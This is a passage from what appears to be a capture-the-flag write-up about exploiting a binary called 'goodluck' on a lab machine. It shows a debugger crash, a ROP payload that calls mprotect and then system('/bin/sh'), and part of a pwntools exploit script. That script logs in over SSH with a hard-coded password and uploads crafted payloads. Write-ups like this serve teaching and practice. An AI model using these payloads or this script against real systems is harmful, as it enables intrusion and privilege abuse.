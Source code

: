     [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    __libc_system (line=0xb7f759ab "/bin/sh") at ../sysdeps/posix/system.c:178
    178     ../sysdeps/posix/system.c: No such file or directory.



The error code threw me for a minute, but then I looked at the address
of `system`, 0xb7e54da0, and the range of libc that is no longer
executable after the assembly above, 0xb7e54000 - 0xb7e55000. That
assembly is to make it so that I can't call `system`!

I looked at making a ROP payload that would make `system` executable
again, and then call it, but that payload is 104 bytes long:



    payload =  b"A" * 76             # 76
    payload += p32(mprotect)         # +4 = 80
    payload += p32(system)           # +4 = 84
    payload += p32(protected)        # +4 = 88
    payload += p32(protected_length) # +4 = 92
    payload += p32(5)                # +4 = 96
    payload += b'EXIT'               # +4 = 100
    payload += p32(binsh)            # +4 = 104



There are things I could do to jump back into the buffer and keep going,
but at this point, it's just easier to go the intended path.

## Full Pwn Script



    #!/usr/bin/env python3

    import re
    from pwn import *


    sshConn = ssh(host="10.10.10.27", user="xalvas", password="18547936..*")
    goodluck = sshConn.process("/home/xalvas/app/goodluck")
    fn = f"/tmp/{randoms(10)}"

    ## Stage 1 - Leak hey.secret
    log.info(f'Writing Stage 1 exploit to {fn}')
    sshConn.upload_data(b"A" * 8 + p32(0x80002FF8), fn)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("2")
    resp = goodluck.recv(4096).decode()
    secret = re.findall(r'debug info: (0x[0-9a-f]+)', resp)[0]
    log.success(f"Found secret: {secret}")

    ## Stage 2 - Access Debug
    log.info(f'Writing Stage 2 exploit to {fn}')
    sshConn.upload_data(p32(int(secret, 16)) + b'AAAA' + p32(0x80002ff4), fn)
    goodluck.sendline("4")
    goodluck.recv(4096)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("3")
    #resp = goodluck.recv(4096).decode()
    resp = goodluck.recvuntil(b"Filename:  ").decode()
